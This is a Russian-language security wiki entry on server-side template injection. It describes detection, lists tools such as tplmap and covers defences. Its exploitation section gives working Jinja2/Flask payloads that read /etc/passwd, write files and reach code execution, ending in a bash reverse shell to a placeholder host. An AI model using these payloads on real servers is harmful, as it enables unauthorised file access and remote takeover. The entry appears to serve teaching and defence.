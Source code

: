 # уязвимость/атака

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация


Client-side (CS) / Server-side Template Injection (SS)

SSTI различается по типу установленного шаблонизатора: 
-Smarty (PHP)
-Mako (Python)
-Apache Velocity (Java)
-jinja2 (Python)
-Twig (PHP)

[Link](https://www.youtube.com/watch?v=3cT0uE7Y87s)
## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные


## Детектирование


Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
`{{  7*7  }}`

`{{ 7 * '7'}}`

и т.д. 

Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.
В некоторых случаях одно выражаение может приводить к разным ответам сервера (в зависимость от того, какой шаблонизатор используется). Например, `{{7*’7′}}` вернёт 49, если используется Twig, 7777777, если используется Jinja2 и не вернёт ничего, если шаблонизатор не используется.
![Рисунок 1](https://1.bp.blogspot.com/-txouq1ZZJw4/Vayv3Np5VGI/AAAAAAAAAFY/6zY9F6SFSEY/s640/Screen%2BShot%2B2015-07-20%2Bat%2B09.21.56.png)

## Информация:


https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/




## Эксплуатация


### Дамп всех используемых классов (Dump all used classes)


`{{ [].class.base.subclasses() }}`

`{{''.class.mro()[1].subclasses()}}`

`{{''.__class__.__mro__[2].__subclasses__()}}`

### Дамп всех переменных конфигурации (Dump all config variables)


	{% for key, value in config.iteritems() %}
		<dt>{{ key|e }}</dt>
   		<dd>{{ value|e }}</dd>
	{% endfor %}

### Чтение из удаленных файлов (Reading remote files)


`''.__class__.__mro__[2].__subclasses__()[40] = File class`

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`

`{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`



### Запись в удаленные файлы (Writing into remote files)
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt',`

`'w').write('Hello here !') }}`



### Удаленное выполнение кода (RCE)


`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from`

`subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config`

`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config`

`{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to`

`evil host`










## Инструменты


Tplmap - это инструмент от [epinna](https://github.com/epinna), который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. [Github](https://github.com/epinna/tplmap)


search.py скрипт от DoubleSigma. [Link](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py).


## Ущерб


Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.


## Защита
### Основные меры


Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 


`& --> &amp;`
 
` < --> &lt;`

` > --> &gt;`

` " --> &quot;`

` ' --> &#x27;   ( &apos;  не рекомендуется)`

` / --> &#x2F; `


Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.


Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.


### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 


Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы


## Обход защиты


Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.
